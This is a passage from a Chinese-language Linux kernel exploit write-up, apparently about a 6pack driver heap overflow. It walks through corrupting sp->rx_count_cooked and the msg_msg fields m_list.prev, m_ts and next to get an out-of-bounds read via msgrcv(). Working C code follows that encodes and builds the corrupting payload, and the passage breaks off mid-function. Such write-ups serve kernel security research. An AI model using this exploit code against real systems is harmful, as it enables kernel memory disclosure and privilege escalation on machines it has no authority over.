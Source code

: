 - （2）然后覆写`sp->rx_count_cooked` 的第2个字节为0x6，`sp->rx_count_cooked == 0x696` — `[3]`。

- （3）`decode_data()`继续往 `sp->cooked_buf[0x696]` 写入，会篡改`msg_msg->m_list->prev` 指针，由于已知其高位两字节为0xffff，很容易修复—`[4]`。

- （4）覆盖 `msg_msg->m_ts` 为0x1100，这样调用`msgrcv()`就能OOB读，目前不需要覆盖 `msg_msg->next` — `[6]`，所以可以直接编码 buffer — `[7]`，设置payload的前2字节为0x88和0x98，以走到漏洞函数，所以前2字节不需要编码，调用`sixpack_encode()`时将 `sp->rx_count` 设置为2。

```c
uint8_t *sixpack_encode(uint8_t *src)
{
    uint8_t *dest = (uint8_t *)calloc(1, 0x3000);
    uint32_t raw_count = 2; // [8]

    for (int count = 0; count <= PAGE_SIZE; count++)
    {
        if ((count % 3) == 0)
        {
            dest[raw_count++] = (src[count] & 0x3f);
            dest[raw_count] = ((src[count] >> 2) & 0x30);
        }
        else if ((count % 3) == 1)
        {
            dest[raw_count++] |= (src[count] & 0x0f);
            dest[raw_count] =	((src[count] >> 2) & 0x3c);
        }
        else
        {
            dest[raw_count++] |= (src[count] & 0x03);
            dest[raw_count++] = (src[count] >> 2);
        }
    }

    return dest;
}


uint8_t *generate_payload(uint64_t target)
{
    uint8_t *encoded;

    memset(buff, 0, PAGE_SIZE);

    // sp->rx_count_cooked = 0x190
    buff[0x194] = 0x90; // [2]

    // sp->rx_count_cooked = 0x696
    buff[0x19a] = 0x06; // [3]

    // fix upper two bytes of msg_msg.m_list.prev
    buff[0x19b] = 0xff; // [4]
    buff[0x19c] = 0xff;

    // msg_msg.m_ts = 0x1100
    buff[0x1a6] = 0x11; // [5]

    // msg_msg.next = target
    if (target) // [6]
        for (int i = 0; i < sizeof(uint64_t); i++)
            buff[0x1ad + i] = (target >> (8 * i)) & 0xff;

    encoded = sixpack_encode(buff);

    // sp->status = 0x18 (to reach decode_data())
    encoded[0] = 0x88; 	// [7]
```